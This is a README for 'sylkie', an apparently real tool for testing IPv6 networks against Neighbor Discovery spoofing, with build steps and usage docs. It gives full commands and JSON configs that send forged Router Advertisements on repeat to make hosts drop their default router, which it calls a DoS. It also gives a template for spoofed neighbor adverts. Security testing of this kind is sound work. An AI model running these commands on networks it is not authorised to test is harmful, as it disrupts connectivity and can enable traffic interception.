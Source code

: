 # `sylkie` 

[![Travis Build Status](https://img.shields.io/travis/dlrobertson/sylkie/master.svg?label=master%20build)](https://travis-ci.org/dlrobertson/sylkie)

A command line tool and library for testing networks for common address
spoofing security vulnerabilities in IPv6 networks using the Neighbor
Discovery Protocol.

## Getting Started

**Note:** This project is still in the early phases of development. If you run into any problems,
please consider submitting an [issue](https://github.com/dlrobertson/sylkie/issues). It currently
will only compile on Linux.

### Dependencies

 - [libseccomp](https://github.com/seccomp/libseccomp) (Optional, but highly recommended)
 - [json-c](https://github.com/json-c/json-c) (Optional, but recommended)

See [The Wiki](https://github.com/dlrobertson/sylkie/wiki#building) for more details.

### Build

Get the code and compile it!

```
# Get the code
git clone https://github.com/dlrobertson/sylkie
cd ./sylkie

# Compile the code
mkdir -p ./build
cd ./build
cmake -DCMAKE_BUILD_TYPE=Release ..
make
make install
```

## Basic usage

The following describes the basic usage of `sylkie`. Run `sylkie -h` or
`sylkie <subcommand> -h` for more details.

### DoS (Router Advert)

The basic usage of the `sylkie` router advert command is listed below.
This command will send a Router Advertisement message to the given ip
or the all nodes multicast addres causing the targeted nodes to remove
`<router-ip>/<prefix>` from their list of default routes.

```
sylkie ra -interface <interface> \
    --target-mac <mac of router> \
    --router-ip <ip of router> \
    --prefix <router prefix> \
    --timeout <time between adverts> \
    --repeat <number of times to send the request>
```

#### Router Advert Examples

A basic example.

```
sylkie ra -i ens3 \
    --target-mac 52:54:00:e3:f4:06 \
    --router-ip fe80::b95b:ee1:cafe:9720 \
    --prefix 64 \
    --repeat -1 \
    --timeout 10
```

This would send a "forged" Router Advertisement to the link local scope
all-nodes address `ff02::1` causing all of the nodes to remove
`fe80::b95b:ee1:cafe:9720/64` (link-layer address `52:54:00:e3:f4:06`)
from their list of default routes.

That is quite a bit of info. To make life easier `sylkie` also accepts
json, where the subcommand (`ra`, `na`) is a key whos value is an array
of objects with the keys and values being the corresponding option
and value. To run the command, pass the path to the json file as the
argument to the `-j` option.

To run the above command from json, first create a file with the following.

```
{
    "ra": [
        {
            "interface": "ens3",
            "target-mac": "52:54:00:e3:f4:06",
            "router-ip": "fe80::b95b:ee1:cafe:9720",
            "prefix": 64,
            "repeat": -1,
            "timeout": 10
        }
    ]
}
```

After creating the file, start sending adverts with the following.

```
sylkie -j /path/to/json
```

This becomes especially useful if there is a set of advertisements
that need to be configured and sent. For example, the following json
config would send two router advertisements on the configured
intervals.

```
{
    "ra": [
        {
            "interface": "ens3",
            "target-mac": "52:54:00:e3:f4:06",
            "router-ip": "fe80::b95b:ee1:cafe:9720",
            "prefix": 64,
            "repeat": -1,
            "timeout": 10
        },
        {
            "interface": "ens3",
            "target-mac": "52:54:00:c2:a7:7c",
            "router-ip": "fe80::cbed:6822:cd23:bbdb",
            "prefix": 64,
            "repeat": -1,
            "timeout": 10
        }
    ]
}
```

#### How it works

The router advert (`ra`) command attempts to DoS a network by sending
"forged" Router Advertisement messages to either a targeted address
(if one is provided) or the link local scope all-nodes address `ff02::1`.
The "forged" Router Advertisement contains [Prefix Information](https://tools.ietf.org/html/rfc4861#section-4.6.2)
with the lifetimes set to 0. The message also contains the
[Source Link-Layer Address](https://tools.ietf.org/html/rfc4861#section-4.6.1).
This should cause the targeted address or all link local nodes to
remove the targetted router from the list of default routes.

### Address spoofing (Neighbor Advert)

```
sylkie na -i <interface> \
    --dst-mac <dest hw addr> \
    --src-ip <source ip> \
    --dst-ip <dest ip address> \
    --target-ip <target ip address> \
    --target-mac <target mac address> \
    --timeout <time betweeen adverts> \
    --repeat <number of times to send the request>
```
